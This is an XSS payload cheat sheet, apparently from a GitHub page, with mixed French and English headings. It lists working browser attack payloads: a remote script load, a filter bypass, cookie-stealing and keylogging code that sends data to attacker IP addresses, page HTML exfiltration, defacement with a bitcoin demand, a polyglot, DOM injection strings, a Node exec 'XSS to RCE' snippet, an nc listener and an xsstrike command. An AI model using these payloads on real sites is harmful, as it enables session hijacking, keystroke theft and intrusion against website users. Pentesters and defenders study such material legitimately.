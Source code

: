 Load remote script

```html
<script src="http://192.168.45.128/xss.js"></script>
```

Bypasser le mot script filter

```html
<sscriptcript>alert('berty');</sscriptcript>
```

Send Cookie details to us: Session-Hijacking

```js
new Image().src = "http://192.168.75.137/xss.php?cookie="+ escape(document.cookie);
```

```js
fetch("http://192.168.45.128/xss.php?cookie=" + btoa(document.cookie));
```


Rediriger l'utilisateur vers un autre site

```js
window.location.replace("https://otherwebsite.com");
```

Modifier la page actuel

```js
document.body.innerHTML = "<center><br><br><br><h1>Oh noez, your are haxed! Send bitcoins quick!</h1></center>";
```

Enregistreur de frappe | Key Logger

```js
document.onkeypress = function(c){ fetch("http://192.168.100.129/?k="+ String.fromCharCode(c.which)); }
document.onkeypress = function(e){ fetch('http://192.168.75.137/log?key=' + btoa(e.key) );}
```

HTML2Canvas

```js
fetch("http://192.168.100.129/?dom="+btoa(document.documentElement.outerHTML));
```

Recuperer le navigateur client

```js
fetch("http://192.168.75.137/?nav="+navigator.userAgent);
```

Polyglottes

```js
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('berty') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('berty')//>\x3e
```

XSS => RCE

```js
var sys = require('sys');
var exec = require('child_process').exec;
exec("C:\\Windows\\System32\\cmd.exe", function(error, stdout, stderr){ sys.puts(stdout) });
exec("/bin/bash", function(error, stdout, stderr){ sys.puts(stdout) });
```

# DOM

```html
<iframe src="javascript:alert(document.domain)">

<img src=x onerror="alert(document.domain)">
"><img src=x onerror=prompt(document.domain);>
#"><img src=/ onerror=alert(document.cookie)>

<svg/onload="alert(document.domain)">
xss">< ! --><svg/onload=alert(document.domain)>

```



```html
nc -nlvp 9001


</textarea><script>fetch('http://10.11.86.29:9001?cookie=' + btoa(document.cookie) );</script>
```


```sh
python xsstrike.py -u "http://$TARGET:$PORT/index.php?task=test"
```